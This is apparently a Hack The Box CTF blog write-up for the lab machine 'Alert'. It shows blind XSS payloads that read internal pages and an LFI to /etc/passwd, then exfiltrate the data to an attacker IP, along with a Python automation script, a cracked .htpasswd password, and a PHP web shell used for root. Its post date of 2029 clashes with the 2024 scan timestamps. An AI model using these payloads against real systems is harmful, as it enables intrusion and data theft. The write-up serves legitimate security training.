 ```yaml
---
layout: post
title:  "[HTB] Alert"
date:   2029-01-17
categories: CTF
---
```


As usual let us start with our nmap scan

---
└─$ nmap 10.10.11.44          
Starting Nmap 7.94 ( https://nmap.org ) at 2024-12-06 03:48 EST
Nmap scan report for alert.htb (10.10.11.44)
Host is up (0.064s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
---

Seeing that we only have ports 22 and 80 here, highly likely our initial access will come from port 80. So let us visit port 80 and see that this is a markdown viewer of some sort wherein we can upload md files.

![alt text](/assets/uploads/htb-alert/image.png)

Trying to upload an md file, we see that it doesnt filter out any html and script tags, and it generates a share link for us. So we can leverage this by creating an XSS payload and sending this to the admin side. But how can we send this to the admin side?  

![alt text](/assets/uploads/htb-alert/image-2.png)

![alt text](/assets/uploads/htb-alert/image-1.png)

Upon looking at the web application, we see that there is a contact us feature which is exactly what we need. 

![alt text](/assets/uploads/htb-alert/image-3.png)

We can more or less deduce that our path would be to create a blind XSS payload and send it to the admin side and gain more information about the machine. 

To try this hypothesis, we create a basic blind xss payload as follows `<script src="//10.10.14.32/zw1tt3r1on.test"></script>`. When we try and upload this file and share it to the admin side by the contact us page, we see that we get a callback from the server

![alt text](/assets/uploads/htb-alert/image-4.png)

From here, we can craft a specific payload to try and fetch the homepage and send the data back to us

---
<script>
fetch("http://alert.htb/")
  .then(response => response.text()) // Convert the response to text
  .then(data => {
    fetch("http://10.10.14.32/?data=" + encodeURIComponent(data)); // Exfiltrate data
  })
  .catch(error => console.error("Error fetching the messages:", error));
</script>
---

We discover now that there is a hidden endpoint called "messages" which corresponds to messages.php.

![alt text](/assets/uploads/htb-alert/image-5.png)

Trying to fetch this messages.php gives us an interesting parameter called "file". 

<script>
fetch("http://alert.htb/messages.php")
  .then(response => response.text()) // Convert the response to text
  .then(data => {
    fetch("http://10.10.14.32/?data=" + encodeURIComponent(data)); // Exfiltrate data
  })
  .catch(error => console.error("Error fetching the messages:", error));
</script>
---

![alt text](/assets/uploads/htb-alert/image-6.png)

Testing this file parameter, we discover that this is vulnerable to a LFI. We can now use this to fetch files within the machine. Sample below is fetching the /etc/passwd file on the machine.

---
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../etc/passwd")
  .then(response => response.text()) // Convert the response to text
  .then(data => {
    fetch("http://10.10.14.32/?data=" + encodeURIComponent(data)); // Exfiltrate data
  })
  .catch(error => console.error("Error fetching the messages:", error));
</script>
---

![alt text](/assets/uploads/htb-alert/image-7.png)

Now we just need to enumerate the machine and look for interesting files. For this, I create a very simple python script to automatically upload the md file and send the link to the contact us page as shown below

```
import requests, re

def send_to_contact(file_name):
    burp0_url = "http://alert.htb:80/contact.php"
    burp0_headers = {
        "Cache-Control": "max-age=0",
        "Upgrade-Insecure-Requests": "1",
        "Origin": "http://alert.htb",
        "Content-Type": "application/x-www-form-urlencoded",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,/assets/uploads/htb-alert/image/avif,/assets/uploads/htb-alert/image/webp,/assets/uploads/htb-alert/image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Referer": "http://alert.htb/index.php?page=contact&status=Message%20sent%20successfully!",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "en-US,en;q=0.9",
        "Connection": "close"
    }
    burp0_data = {"email": "zw@zw.com", "message": file_name}
    requests.post(burp0_url, headers=burp0_headers, data=burp0_data)


def send_md_request(file_path):
    burp0_url = "http://alert.htb:80/visualizer.php"
    burp0_headers = {
        "Cache-Control": "max-age=0",
        "Upgrade-Insecure-Requests": "1",
        "Origin": "http://alert.htb",
        "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryJFBXbjnjqVK66x3C",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,/assets/uploads/htb-alert/image/avif,/assets/uploads/htb-alert/image/webp,/assets/uploads/htb-alert/image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Referer": "http://alert.htb/index.php?page=alert",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "en-US,en;q=0.9",
        "Connection": "close"
    }
    burp0_data = f"""------WebKitFormBoundaryJFBXbjnjqVK66x3C\r\nContent-Disposition: form-data; name="file"; filename="zwtest.md"\r\nContent-Type: text/markdown\r\n\r\n<script>
fetch("http://alert.htb/messages.php?file={file_path}")
  .then(response => response.text()) // Convert the response to text
  .then(data => {{
    fetch("http://10.10.14.32/?d1=" + encodeURIComponent(data));
  }})
  .catch(error => console.error("Error fetching the messages:", error));
</script>\r\n------WebKitFormBoundaryJFBXbjnjqVK66x3C--\r\n"""
    response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)

    regex_template = r'href="(http://alert\.htb/visualizer\.php\?link_share=[^"]+)"'
    match = re.search(regex_template, str(response.text))
    url = match.group(1)
    print('sending url: ', url)
    send_to_contact(url)

while True:
    send_md_request(input('enter path: '))

```

![alt text](/assets/uploads/htb-alert/image-8.png)

Looking at the 000-default.conf file, we see that there is another subdomain called statistics

![alt text](/assets/uploads/htb-alert/image-10.png)

![alt text](/assets/uploads/htb-alert/image-9.png)

Visiting the statistics subdomain gives us a basic auth login 

![alt text](/assets/uploads/htb-alert/image-11.png)

Since we have a way to read local files within the machine, we can read the .htpasswd file of statistics.alert.htb at /var/www/statistics.alert.htb/.htpasswd and we get the credentials of the user "albert"

![alt text](/assets/uploads/htb-alert/image-13.png)

![alt text](/assets/uploads/htb-alert/image-12.png)

Cracking this hash, we get the password is "manchesterunited". 

![alt text](</assets/uploads/htb-alert/2024-12-06 16_28_45.png>)

We can now use this to login using ssh and we get our user flag

![alt text](/assets/uploads/htb-alert/image-16.png)

Looking for possible privilege escalation pathways, we observe that there is a php process running serving files on port 8080 as root. 

![alt text](</assets/uploads/htb-alert/2024-12-06 16_42_12.png>)

So we port forward this using ssh and take a look at what it is exactly running

![alt text](/assets/uploads/htb-alert/image-14.png)

![alt text](/assets/uploads/htb-alert/image-15.png)

Since it is serving files on the /opt/website-monitor directory, we just need to find a way to write something in the /opt/website-monitor and get a php shell.

![alt text](/assets/uploads/htb-alert/image-17.png)

Since we know that we can write in the config and monitors folder, let us quickly write a php web shell and visit that page 

![alt text](/assets/uploads/htb-alert/image-18.png)

![alt text](/assets/uploads/htb-alert/image-19.png)

From here we can just get a reverse shell using our web shell and get the root flag, or just simply cat the root flag using this web shell

![alt text](/assets/uploads/htb-alert/image-20.png)

Pwned!!

![alt text](/assets/uploads/htb-alert/image-21.png)